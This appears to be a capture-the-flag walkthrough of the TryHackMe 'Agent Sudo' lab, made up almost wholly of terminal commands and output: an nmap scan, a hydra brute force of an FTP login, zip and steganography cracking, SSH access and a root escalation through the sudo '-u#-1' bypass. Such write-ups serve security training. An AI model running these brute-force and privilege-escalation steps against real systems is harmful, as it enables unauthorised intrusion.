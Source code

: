 ```bash
┌──(xnv㉿xnv)-[~/thm/agent-sudo]
└─$ nmap -A 10.10.252.69
```
21/tcp open ftp vsftpd 3.0.3

22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| 256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_ 256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)

80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```bash
┌──(xnv㉿xnv)-[~/thm/agent-sudo]
└─$ hydra -l chris -P ~/rockyou.txt [<ftp://10.10.252.69>](<ftp://10.10.252.69/>)
```
[21][ftp] host: 10.10.252.69 login: chris password: *******

```bash
┌──(luffe㉿Kalizin)-[~/THM/agente-sudo]
└─$ binwalk -e cutie.png
```

```bash
┌──(xnv㉿xnv)-[~/thm/agent-sudo]
└─$ unzip _cutie.png.extracted
```
cutie.png.extract

```bash
┌──(xnv㉿xnv)-[~/thm/agent-sudo]
└─$ zip2john 8702.zip > hash.txt
```

```bash
┌──(root💀xnv)-[/home/…/thm/agent-sudo/_cutie.png.extracted]
└─# john hash.txt -wordlist=../../../../rockyou.txt
```
alien (8702.zip/To_agentR.txt)

```bash
┌──(xnv㉿Kali)-[~/thm/agent-sudo/_cutie.png.extracted]
└─$ 7z x 8702.zip
```

```bash
┌──(xnv㉿xnv)-[~/thm/agent-sudo/_cutie.png.extracted]
└─$ cat To_agentR.txt
```

Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,

Agent R

<aside> 💡 DECODE BASE64 / ******

</aside>

```bash
┌──(xnv㉿Kali)-[~/thm/agent-sudo]
└─$ steghide extract -sf cute-alien.jpg
```

```bash
┌──(xnv㉿Kali)-[~/thm/agent-sudo]
└─$ cat message.txt
```
Hi james,

Glad you find this message. Your login password is ************

```bash
james@agent-sudo:~$ cat user_flag.txt
```
> ********************************

```bash
┌──(xnv㉿Kali)-[~/thm/agent-sudo]
└─$ scp james@10.10.209.115:/home/james/Alien_autospy.jpg
```

```bash
james@agent-sudo:~$ sudo -l
```
Matching Defaults entries for james on agent-sudo:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User james may run the following commands on agent-sudo:
(ALL, !root) /bin/bash

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
```

```bash
root@agent-sudo:~# id
```
uid=0(root) gid=1000(james) groups=1000(james)

```bash
root@agent-sudo:~#  cat /root/root.txt
```
> ********************************
